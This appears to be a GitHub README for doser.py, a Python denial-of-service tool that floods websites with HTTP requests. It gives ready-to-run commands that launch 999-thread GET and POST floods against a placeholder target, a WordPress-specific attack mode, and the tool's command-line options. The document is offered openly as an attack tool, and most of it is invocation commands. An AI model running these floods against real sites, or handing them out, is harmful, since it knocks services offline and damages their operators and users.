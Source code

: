 
# doser.py
DoS tool for HTTP requests (inspired by hulk but has more functionalities) written in Python:
![](https://raw.githubusercontent.com/Quitten/doser.py/master/doser.jpg)

# Examples
999 threads sends GET requests:

```bash
python doser.py -t 999 -g 'https://targeted.site.com'
```
Perform Wordpress Dos:

```bash
python doser.py -t 999 -g 'https://targeted.site.com' -wpd true
```

999 threads sends POST requests with json data:

```bash
python doser.py -t 999 -p 'https://targeted.site.com' -ah 'Content-Type: application/json' -d '{"json": "payload"}'
```

# Usage
usage: doser.py [-h] [-g G] [-p P] [-d D] [-ah AH] [-t T]

optional arguments:

  -h, --help  show this help message and exit
  
  -g        Specify GET request. Usage: -g '< url >'
  
  -p        Specify POST request. Usage: -p '< url >'
  
  -d        Specify data payload for POST request
  
  -ah      Specify addtional header
  -wpd      Specify Tru and this param to test wordpress dos
  -t        Specify number of threads to be used
